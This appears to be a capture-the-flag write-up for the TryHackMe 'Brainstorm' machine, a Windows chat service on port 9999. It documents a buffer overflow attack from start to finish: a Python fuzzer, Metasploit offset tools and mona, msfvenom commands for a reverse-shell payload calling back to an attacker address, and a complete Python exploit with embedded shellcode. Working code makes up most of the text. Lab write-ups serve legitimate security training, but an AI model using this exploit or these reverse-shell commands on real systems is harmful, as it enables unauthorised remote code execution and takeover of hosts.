

brainstorm
Brainstorm
Nmap Shows 3 open ports: 21,3389,9999
FTP : 21
RDP : 3389
Chat Service : 9999 (Found out after connecting)
THM answer for No of Open ports: 6
We connect to the machine with anonymous ftp login.
Change mode to passive. (Else the “ls” command is stuck and won't work)

Changed to Binary mode using “binary” before tranferring the files.
Run the executible in a local windows 10 machine for research.
We fuzz the machine using the following fuzzer.
#!/usr/bin/env python3
import socket, time, sys
ip = "11.11.11.123"
port = 9999
timeout = 5
prefix = ""
string = prefix + "A" * 100
while True:
try:
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.settimeout(timeout)
s.connect((ip, port))
s.recv(1024)
print("Fuzzing Username: with {} bytes".format(len(string) - len(prefix)))
s.send(bytes(string, "latin-1"))
s.recv(1024)
print("Fuzzing Message: with {} bytes".format(len(string) - len(prefix)))
s.send(bytes(string, "latin-1"))
s.recv(1024)
except:
print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
sys.exit(0)
string += 100 * "A"
time.sleep(1)
The program crashed at 2200 bytes.
We create a pattern of 2200 bytes using metasploit tools.
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200
Then find the offset point using metasploit

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2200 -q 31704330
Or use mona script to find out offset 2012
!mona findmsp -distance 2200
Then i built the exploit the python file using the reverse enginering techniques.
A) Find badchars : “\x00” : No others were found
B) find jump point
Select a jump address and put it in retn using little endian format.
625014EB
retn = "\xEB\x14\x50\x62"
C) add NOP paddings. “\x90” * 16
D) put the shellcode in payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00" -f python -v payload
Internet Style to get a varibale named payload. (To copy paste as it is)
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 EXITFUNC=thread -b "\x00" -f c
Tryhackme style. (Copy the code part only into parenthesis of payload)
E) start the listener
F) run the exploit
Use the following python exploit.
#!/usr/bin/env python3
import socket, time, sys
ip = "10.10.156.93"
#625014EB
port = 9999
timeout = 5
username = "brainstormZ"
prefix = ""
offset = 2012
overflow = "A" * offset
retn = "\xEB\x14\x50\x62"
padding = "\x90" * 16
payload = ("\xda\xde\xd9\x74\x24\xf4\xba\xb6\x9e\x8a\x34\x5e\x33\xc9\xb1"
"\x52\x31\x56\x17\x83\xee\xfc\x03\xe0\x8d\x68\xc1\xf0\x5a\xee"
"\x2a\x08\x9b\x8f\xa3\xed\xaa\x8f\xd0\x66\x9c\x3f\x92\x2a\x11"
"\xcb\xf6\xde\xa2\xb9\xde\xd1\x03\x77\x39\xdc\x94\x24\x79\x7f"
"\x17\x37\xae\x5f\x26\xf8\xa3\x9e\x6f\xe5\x4e\xf2\x38\x61\xfc"
"\xe2\x4d\x3f\x3d\x89\x1e\xd1\x45\x6e\xd6\xd0\x64\x21\x6c\x8b"
"\xa6\xc0\xa1\xa7\xee\xda\xa6\x82\xb9\x51\x1c\x78\x38\xb3\x6c"
"\x81\x97\xfa\x40\x70\xe9\x3b\x66\x6b\x9c\x35\x94\x16\xa7\x82"
"\xe6\xcc\x22\x10\x40\x86\x95\xfc\x70\x4b\x43\x77\x7e\x20\x07"
"\xdf\x63\xb7\xc4\x54\x9f\x3c\xeb\xba\x29\x06\xc8\x1e\x71\xdc"
"\x71\x07\xdf\xb3\x8e\x57\x80\x6c\x2b\x1c\x2d\x78\x46\x7f\x3a"
"\x4d\x6b\x7f\xba\xd9\xfc\x0c\x88\x46\x57\x9a\xa0\x0f\x71\x5d"
"\xc6\x25\xc5\xf1\x39\xc6\x36\xd8\xfd\x92\x66\x72\xd7\x9a\xec"
"\x82\xd8\x4e\xa2\xd2\x76\x21\x03\x82\x36\x91\xeb\xc8\xb8\xce"
"\x0c\xf3\x12\x67\xa6\x0e\xf5\x82\x3c\x58\x1a\xfb\x40\x58\x3a"
"\x9a\xcd\xbe\x28\x4c\x98\x69\xc5\xf5\x81\xe1\x74\xf9\x1f\x8c"
"\xb7\x71\xac\x71\x79\x72\xd9\x61\xee\x72\x94\xdb\xb9\x8d\x02"
"\x73\x25\x1f\xc9\x83\x20\x3c\x46\xd4\x65\xf2\x9f\xb0\x9b\xad"
"\x09\xa6\x61\x2b\x71\x62\xbe\x88\x7c\x6b\x33\xb4\x5a\x7b\x8d"
"\x35\xe7\x2f\x41\x60\xb1\x99\x27\xda\x73\x73\xfe\xb1\xdd\x13"
"\x87\xf9\xdd\x65\x88\xd7\xab\x89\x39\x8e\xed\xb6\xf6\x46\xfa"
"\xcf\xea\xf6\x05\x1a\xaf\x17\xe4\x8e\xda\xbf\xb1\x5b\x67\xa2"
"\x41\xb6\xa4\xdb\xc1\x32\x55\x18\xd9\x37\x50\x64\x5d\xa4\x28"
"\xf5\x08\xca\x9f\xf6\x18")
string = overflow + retn + padding + payload
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Delivering Payload into brainstorm.")
s.send(bytes(username, "latin-1"))
time.sleep(1)
s.send(bytes(string, "latin-1"))
print("Done!")
except:
print("Could not connect.")


Note: Much explanation is not there for exploit creation as it is completely same as the "CybeXRay Guides -----→ Reverse Engineering -----→ Buffer Overflows Using ID & mona"